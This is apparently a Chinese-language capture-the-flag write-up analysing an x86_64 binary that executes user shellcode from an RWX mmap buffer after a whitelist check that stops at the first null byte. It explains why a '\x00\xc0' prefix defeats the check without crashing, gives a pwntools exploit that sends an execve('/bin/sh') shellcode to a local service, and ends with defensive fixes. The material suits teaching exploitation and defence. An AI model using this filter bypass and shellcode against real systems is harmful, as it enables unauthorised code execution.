


# 具有字符过滤校验的Shellcode执行流控制深度解析

## 概述

本文针对一道典型的 **Linux x86_64 平台下的 Pwn 挑战**进行深度技术分析。

### 题目特点
- 通过 `mmap` 分配一块具有 **可读、可写、可执行（RWX）** 权限的内存区接收 Shellcode
- 引入了严格的**逐字节白名单/黑名单**校验函数
- 利用 C 语言字符串处理的**"零截断"**逻辑缺陷绕过安全防御

### 核心技术点
- 从 CPU 指令集架构（ISA）和寄存器状态的底层视角分析
- 解析为何 `\x00\x00` 会导致段错误（SIGSEGV）
- 最终使用**控制流中立的寄存器指令滑条（`\x00\xc0`）**实现完美利用

---

## 题目背景与静态分析

本题目的主要逻辑集中在主函数 `main` 以及自定义的校验函数 `sub_400786` 中。通过 IDA Pro 进行反编译，可以梳理出程序的核心运行流程。

### 内存分配与输入阶段

在 `main` 函数中，程序通过调用系统调用 `mmap` 动态分配一块内存：

```c
buf = mmap(0LL, 0x1000uLL, 7, 34, 0, 0LL);
```

该调用各参数的深层含义如下：

| 参数 | 取值 | 含义 |
|------|------|------|
| 起始地址 | `0LL` | 由操作系统内核自动选择一块对齐的虚拟地址进行映射 |
| 映射大小 | `0x1000uLL` | 分配大小为 4096 字节（即 4KB），正好为 Linux 系统中的一个标准内存页（Page） |
| 保护权限 | `7` | 即 `PROT_READ \| PROT_WRITE \| PROT_EXEC`。这打破了现代操作系统常规的 W^X（写或执行）安全防御机制，赋予了该内存区完整的可执行权限（RWX） |
| 映射标记 | `34` | 即十进制的 34（十六进制为 `0x22`），是 `MAP_PRIVATE`（`0x02`）与 `MAP_ANONYMOUS`（`0x20`）的按位或组合，表示一块不关联任何文件的匿名私有内存 |

分配完成后，程序通过 `read(0, buf, 0x200uLL)` 向该缓冲区读入最多 512 字节的数据。

---

## 安全校验阶段

程序读入数据后，通过自定义函数对 `buf` 里的内容进行校验：

```c
if ( !(unsigned int)sub_400786(buf) ) {
    printf("wrong shellcode!");
    exit(0);
}
```

### 核心过滤逻辑

跳转进 `sub_400786`，其核心过滤逻辑如下：

```c
while ( *a1 ) {
    for ( i = &unk_400978; *i && *i != *a1; ++i ) ;
    if ( !*i ) return 0LL;
    ++a1;
}
return 1LL;
```

### 算法分析

分析该算法可知：

1. **白名单校验**：校验函数遍历输入缓冲区 `a1`（即 `buf`）中的每个字节，并在数组 `unk_400978` 中查找该字节是否存在（通常该数组为字母、数字等可见字符的白名单）
2. **快速失败**：如果在输入中遇到任何一个不在白名单中的字节，函数将立即返回 `0LL`，程序输出报错并退出
3. **关键控制条件**：循环的继续与终止完全依赖于 `while ( *a1 )`，这意味着程序将输入缓冲区当作一个传统的 **C 风格字符串**进行处理

---

## 执行阶段

如果校验通过，主程序将 `buf` 强制转换为无参数、无返回值的函数指针并直接执行：

```c
((void (*)(void))buf)();
```

在 x86_64 汇编层面，由于 `buf` 是存储在栈上的局部变量，这通常会被翻译为：

```nasm
mov rax, [rbp-10h]
call rax
```

---
## 核心漏洞分析与绕过原理

这道题的设计存在两个核心维度的安全缺陷，使得攻击者可以绕过严格的字符集过滤。



### 漏洞一：C 风格字符串处理二进制数据（Null 字节截断缺陷）

校验函数 `sub_400786` 的根本设计缺陷在于：**试图用处理文本字符串的逻辑来校验二进制流（Shellcode）**。

#### 什么是 C 风格字符串？

在标准 C 语言中，字符 `\x00`（Null 字节）被定义为字符串的终结符。一个 C 字符串的长度由第一个 Null 字节决定，而非实际的内存分配大小。

#### 缺陷分析

当校验函数执行到 `while ( *a1 )` 时，如果检测到 `*a1 == 0`：

- `while` 循环会认为字符串已经结束，从而立刻终止循环
- 程序跳过内部的所有白名单比对，直接走到最后一行的 `return 1LL`（校验通过）

因此，如果我们构造的 Payload **以 `\x00` 开头**，那么无论后面携带了多么复杂的、不符合白名单规范的 Shellcode，校验机制都会被完全蒙蔽并放行！

---

### 漏洞二：内存权限未隔离（RWX）与执行流控制缺陷

传统栈溢出攻击需要通过计算偏移覆盖返回地址（Return Address）或基址指针（RBP）来迫使 CPU 跳转。

但本题中：
- `buf` 指针本身存放在栈上（地址为 `[rbp-10h]`）
- 实际的数据存放在由 `mmap` 分配的独立内存区（如 `0x7ffff7ffa000`）

由于程序在校验通过后会**主动跳转**到该独立内存区的起始位置执行，因此攻击者无需进行任何复杂的栈溢出填充，只需确保 Payload 被放置在 `buf` 的最开头，并能够平稳过渡到真实 Shellcode 的入口即可。

---

## 执行阶段的"暗礁"与底层汇编指令剖析

在利用"Null 字节截断"成功欺骗校验函数后，为什么最直观的 `b"\x00\x00" + shellcode` 会导致程序崩溃？

这是一个涉及 CPU 寄存器状态与虚拟内存管理的经典问题。

---

### 为何 `\x00\x00` 导致崩溃？

在 x86_64 指令集中，连续的两个空字节 `00 00` 会被 CPU 的译码器解析为以下汇编指令：

```nasm
add byte ptr [rax], al
```

#### 指令含义

该指令的操作意图是：**读取寄存器 `rax` 指向的内存地址处的 1 字节数据，将其与 `al`（rax 的低 8 位）相加，再写回该内存地址**。

#### 寄存器状态分析

在我们的控制流执行到这里时，寄存器 `rax` 的值是多少？

1. CPU 刚刚完成了 `if ( !(unsigned int)sub_400786(buf) )` 的条件判断
2. 函数 `sub_400786` 执行成功，其返回值（通常放在 `rax` 寄存器中）为 `1`（即 `1LL`）
3. 因此，此时 `rax` 的精确值为 `0x0000000000000001`

#### 崩溃原因

当 CPU 执行 `add byte ptr [rax], al` 时，它试图去读写虚拟地址 `0x0000000000000001`。

根据现代操作系统的内存保护机制，**最低的内存页（即包含地址 0x0 到 0xfff 的 Page Zero）是严格受到内核保护、不映射且不可读写的**。

因此，CPU 的 MMU（内存管理单元）会立即抛出 **页错误（Page Fault）**，内核接收并向该进程发送 **SIGSEGV（段错误）** 信号，程序直接崩溃退出。

我们的 Shellcode 根本没有机会被执行！

---
### "寄存器滑条"绕过技术：`\x00\xc0` 运作机制

为了解决因 `rax` 导致的内存写冲突，我们需要找到另一个字节作为 Payload 的第二字节。



这个字节必须满足两个严苛的物理限制：

1. 与首字节 `\x00` 组成的 16 位机器码必须被解析为一条**完全不访问内存、只进行寄存器运算**的指令
2. 该指令执行后不能破坏执行流或触发其他软硬件异常

#### 寻找合适的机器码

通过检索 x86_64 机器码对照表，我们发现机器码 `00 c0` 对应的汇编指令为：

```nasm
add al, al
```

#### 指令执行效果

该指令的执行效果是：**将寄存器 `al` 的值乘以二（即逻辑左移 1 位），并将结果存回 `al` 中**。

#### 安全性分析

- **内存安全**：该指令的所有输入和输出全部限定在 CPU 内部的通用寄存器（Register-only）中，**完全不发生任何内存读取或写入操作**
- **逻辑安全**：无论 `rax` 当前是 1 还是其他任何值，该计算都是合法的、安全的，不会对 CPU 的执行流产生任何阻断

#### 完美利用

因此，当 CPU 执行完 `add al, al`（耗时仅需一个时钟周期）后，程序指针（RIP）会自然而然、毫发无损地自动滑向下一个字节——也就是我们真正想要执行的物理 Shellcode 开头，从而实现完美利用！

---

## 动态调试与漏洞利用实践

### 基于 Pwndbg 的动态确认

在本地利用 GDB（配有 Pwndbg 插件）调试该程序时，我们可以在 `mmap` 返回后下断点。

在调试终端中：
```
pwndbg> b *0x40088A  # call puts@plt
pwndbg> r            # 运行
```

当程序停在断点处时，检查寄存器状态，可以清晰地观察到：

- **RAX 寄存器的值**：`0x7ffff7ffa000`（此即 mmap 申请出的 RWX 缓冲区的基地址）
- 使用 `vmmap` 命令查看该内存段的属性：

```
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
0x7ffff7ffa000  0x7ffff7ffb000  rwxp  1000  0  [anon_7ffff7ffa]
```

确认此内存区的大小为 `0x1000`，且权限为最高级别的 **rwxp**（可读、可写、可执行、私有）。

---

### 漏洞利用脚本（Exploit）构建

利用 Pwndbg 获取相关上下文后，我们可以编写如下完善的 Exploit 脚本：

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

# 1. 生成 Linux x86_64 execve("/bin/sh") 的 Shellcode
shellcode = asm(shellcraft.sh())

# 2. 构造 Payload
# \x00 -> 骗过 sub_400786 的 while 循环，直接返回 1LL (校验通过)
# \xc0 -> 与首字节 \x00 组成 "add al, al" 指令，避免触发 SIGSEGV
payload = b'\x00\xc0' + shellcode

# 3. 连接目标
# io = process("./pwn")  # 本地
io = remote("127.0.0.1", 10001)  # 远程

io.sendafter(b"give me shellcode, plz:\n", payload)

# 4. 获得 Shell
io.interactive()
```

---

## 总结与防御建议

本挑战是一个深入理解计算机系统底层机制的优秀案例。它向我们证明了：**上层的安全策略（如白名单字符集校验）如果与底层实现（如 C 风格字符串处理、寄存器残留状态）脱节，安全防线将瞬间崩溃**。

### 防御与修复建议

对于二进制开发者及系统安全工程师，我们给出以下防御与修复建议：

#### 1. 严格实行长度安全策略

在处理任何非纯文本的输入（如机器码、加密流、序列化数据）时：
- **绝对不能依赖首个 Null 字节等截断符**
- 必须严格基于系统调用实际读取的字节数（如 `read` 返回值）进行边界受限的循环校验

#### 2. 遵循最小特权原则

如果不是专门的即时编译（JIT）引擎：
- 任何生产环境下的缓冲区都不应该同时具备可写（W）和可执行（X）权限
- 在分配动态内存时，应优先使用 `PROT_READ \| PROT_WRITE`
- 在写入完毕后再通过 `mprotect` 将其修改为只读或只执行

---

## 相关概念

- [[栈溢出基础]] - 基础栈溢出技术
- [[控制程序执行流]] - 如何劫持程序执行流
- [[获取地址]] - 如何在漏洞利用中获取关键地址